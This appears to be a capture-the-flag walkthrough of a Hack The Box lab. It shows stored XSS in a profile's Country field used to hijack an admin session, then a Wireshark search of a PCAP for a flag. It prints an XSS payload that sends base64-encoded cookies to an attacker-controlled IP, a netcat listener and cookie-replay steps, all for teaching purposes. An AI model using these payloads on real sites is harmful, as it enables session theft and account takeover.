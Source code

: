 # Skill Assessment

#### You are currently participating in a bug bounty program.

* The only URL in scope is `http://minilab.htb.net`
* Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
* Test account credentials:
  * Email: heavycat106
  * Password: rocknrol
* Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

#### Read the flag residing in the admin's public profile. Answer format: \[string]

The first thing that we should do to try to hijack a session from the web application is understand what is keeping the user with the session established. After looking around a bit I found that the **Cookie: auth-sess** is the key component.&#x20;

So our first task ask us to read the file from the admin's public profile. This mislead me a bit, but fortunately the hint actually tell that we have to make the admin's profile public in order to read the flag.

Before moving to the solution let's first ask these two questions:

* What is the admin's profile?
* How do I hijack his session?

We don't have any information regarding this questions. However, the statement above give us a clue that we have to explore the `http://minilab.htb.net/submit-solution` endpoint.

If we paste the URL on the browser, we should receive the following output:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

From the output above we can that a url is missing. Let's add it and append the domain to it:

`http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/submit-solution`

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Now the output is different. But what does it mean?&#x20;

This endpoint simulates the admin interaction. Basically this is where we "deliver" the payload to the admin.

Since that we make this clear, now let's explore the application and how we can deliver the payload.

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

When we logged in with the provided credentials this is are the default values. The vulnerable parameter that we are going to exploit is the **Country** field.&#x20;

To edit it, simply delete the presented values and replace it with `<script>alert(document.domain)</script>`

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Then click it on **Share**.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

And the payload got executed! Notice the highlighted URL, this is what we have to deliver to the admin.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

By pressing **Ctrl + Shit + I** we can inspect the Cookie value. We can see that there is indeedn a **auth-session**, and the **HttpOnly** is set to false.

Now we have to came with a payload that retrieves the Cookie from the admin's connection attempt:

{% code overflow="wrap" %}
```
"><img src="x" onerror="document.write(`<img src='http://OUR_VPN_IP:PORT?cookie=${btoa(document.cookie)}'>`)">
```
{% endcode %}

Replace the IP, paste the the payload on the **Country** field and save.

In order to capture the Request, we have to setup a listener on our machine:

```
nc -lvpn 8000
```

Now, on a private tab, or different browser paste the following URL:

{% code overflow="wrap" %}
```
http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

And we got the admin's cookie!

Notice that in our previous payload we used the function btoa that encodes a string to base64.

Now we have to reverse the process:

```
echo "ENCODED COOKIE" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



Paste the decoded Cookie on the Cookie value and refresh the page.

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

And we got Admin access! Now we have to make the admin's profile public. Click on **Change Visibility**.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Then click on **Share**.

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

And we got the first flag!

#### Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: FLAG{string}

For the second part of this lab, we have to download the pcap file on the admins profile

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Click on Flag2 do download the pcap file and then open it with wireshark

Then we have to look for a part of the string. Click on **Edit** > **Find Packet** > Select **Packet bytes** and **String**.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Then just click on **Find** and we got the second flag!
